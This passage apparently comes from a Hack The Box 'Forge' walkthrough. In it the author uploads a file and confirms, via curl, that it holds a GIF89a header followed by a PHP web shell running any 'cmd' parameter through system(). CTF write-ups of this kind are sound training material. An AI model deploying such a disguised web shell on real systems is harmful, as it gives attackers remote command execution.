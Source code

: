 I clicked **Upload local file** and selected the file I've created above:

![forge-test-upload](/assets/images/2021-10-23-16-49-44.png)

Which seemed to work:

![forge-test-success](/assets/images/2021-10-23-16-50-06.png)

Checking I see the file was uploaded as I created it:

```text
┌──(root💀kali)-[~/htb/forge]
└─# curl http://forge.htb/uploads/IKExHjc8JZpazyGNcp02
GIF89a;
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
